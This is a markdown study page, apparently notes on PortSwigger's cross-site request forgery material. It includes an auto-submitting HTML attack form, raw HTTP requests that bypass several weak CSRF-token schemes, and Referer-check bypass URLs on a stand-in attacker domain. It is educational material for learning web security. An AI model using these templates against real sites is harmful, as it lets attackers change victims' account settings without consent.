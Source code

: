 ```yaml
---
title: CSRF
category: web
order: 1
---
```

# CSRF (portswigger)
---
 Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

 for CSRF we need:
 1. relevant action
 2. cookie based session handling: Performing the action involves issuing one or more HTTP requests, and the application relies solely on session cookies to identify the user who has made the requests.
 3. No unpredictable request parameters: The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess.

 **HTTP request example**
 ```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

**attack example**
```
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## csrf token bypass example

**some apps validate only post methods**

```
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

**bypass if the app depends on the token being present**
```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

**bypass if the token is not tied to the user session:**  
 In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.

**CSRF token is tied to a non-session cookie**
  In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:

   This situation is harder to exploit but is still vulnerable. If the web site contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

   ```
   POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```
**CSRF token is simply duplicated in a cookie**
 some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter.
 ```
 POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

 In this situation, the attacker can again perform a CSRF attack if the web site contains any cookie setting functionality. Here, the attacker doesn't need to obtain a valid token of their own. They simply invent a token (perhaps in the required format, if that is being checked), leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

**Referer-based defenses against CSRF**
easey to change the referer
```
 <meta name="referrer" content="never">
 http://attacker-website.com/csrf-attack?vulnerable-website.com

If the application validates that the domain in the Referer starts with the expected value, then the attacker can place this as a subdomain of their own domain:

http://vulnerable-website.com.attacker-website.com/csrf-attack
```
**prevention**
. using csrf token and validation for every methods Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.

